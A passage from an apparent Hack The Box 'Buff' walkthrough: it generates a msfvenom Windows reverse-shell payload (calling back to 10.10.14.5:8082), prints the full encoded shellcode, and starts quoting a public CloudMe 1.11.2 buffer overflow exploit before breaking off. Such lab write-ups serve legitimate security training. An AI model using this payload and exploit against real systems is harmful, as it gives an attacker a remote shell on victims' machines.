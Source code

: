 ```bash
Last login: Sat Aug  1 08:02:50 2020 from 10.10.14.2
kali@kali:~$
```

We can see the prompt of our system when the connection is established. Now we can run the buffer overflow exploit.

1. Create a `msfvenom` payload.
    ```bash
    kali@kali:~/Desktop/htb/buff$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=8082 -b "\x00\x0d\x0a" -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xbd\xaf\x84\x7b\x34\xda\xdb\xd9\x74\x24\xf4\x5f"
payload += b"\x2b\xc9\xb1\x52\x31\x6f\x12\x83\xef\xfc\x03\xc0"
payload += b"\x8a\x99\xc1\xe2\x7b\xdf\x2a\x1a\x7c\x80\xa3\xff"
payload += b"\x4d\x80\xd0\x74\xfd\x30\x92\xd8\xf2\xbb\xf6\xc8"
payload += b"\x81\xce\xde\xff\x22\x64\x39\xce\xb3\xd5\x79\x51"
payload += b"\x30\x24\xae\xb1\x09\xe7\xa3\xb0\x4e\x1a\x49\xe0"
payload += b"\x07\x50\xfc\x14\x23\x2c\x3d\x9f\x7f\xa0\x45\x7c"
payload += b"\x37\xc3\x64\xd3\x43\x9a\xa6\xd2\x80\x96\xee\xcc"
payload += b"\xc5\x93\xb9\x67\x3d\x6f\x38\xa1\x0f\x90\x97\x8c"
payload += b"\xbf\x63\xe9\xc9\x78\x9c\x9c\x23\x7b\x21\xa7\xf0"
payload += b"\x01\xfd\x22\xe2\xa2\x76\x94\xce\x53\x5a\x43\x85"
payload += b"\x58\x17\x07\xc1\x7c\xa6\xc4\x7a\x78\x23\xeb\xac"
payload += b"\x08\x77\xc8\x68\x50\x23\x71\x29\x3c\x82\x8e\x29"
payload += b"\x9f\x7b\x2b\x22\x32\x6f\x46\x69\x5b\x5c\x6b\x91"
payload += b"\x9b\xca\xfc\xe2\xa9\x55\x57\x6c\x82\x1e\x71\x6b"
payload += b"\xe5\x34\xc5\xe3\x18\xb7\x36\x2a\xdf\xe3\x66\x44"
payload += b"\xf6\x8b\xec\x94\xf7\x59\xa2\xc4\x57\x32\x03\xb4"
payload += b"\x17\xe2\xeb\xde\x97\xdd\x0c\xe1\x7d\x76\xa6\x18"
payload += b"\x16\x73\x3d\x2c\xe3\xeb\x43\x30\xf4\x79\xca\xd6"
payload += b"\x60\x6e\x9b\x41\x1d\x17\x86\x19\xbc\xd8\x1c\x64"
payload += b"\xfe\x53\x93\x99\xb1\x93\xde\x89\x26\x54\x95\xf3"
payload += b"\xe1\x6b\x03\x9b\x6e\xf9\xc8\x5b\xf8\xe2\x46\x0c"
payload += b"\xad\xd5\x9e\xd8\x43\x4f\x09\xfe\x99\x09\x72\xba"
payload += b"\x45\xea\x7d\x43\x0b\x56\x5a\x53\xd5\x57\xe6\x07"
payload += b"\x89\x01\xb0\xf1\x6f\xf8\x72\xab\x39\x57\xdd\x3b"
payload += b"\xbf\x9b\xde\x3d\xc0\xf1\xa8\xa1\x71\xac\xec\xde"
payload += b"\xbe\x38\xf9\xa7\xa2\xd8\x06\x72\x67\xe8\x4c\xde"
payload += b"\xce\x61\x09\x8b\x52\xec\xaa\x66\x90\x09\x29\x82"
payload += b"\x69\xee\x31\xe7\x6c\xaa\xf5\x14\x1d\xa3\x93\x1a"
payload += b"\xb2\xc4\xb1"
```

2. Replace the payload in the exploit.

    ```python
    # Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
    # Date: 2020-04-27
    # Exploit Author: Andy Bowden
    # Vendor Homepage: https://www.cloudme.com/en
    # Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
    # Version: CloudMe 1.11.2
    # Tested on: Windows 10 x86

    #Instructions:
```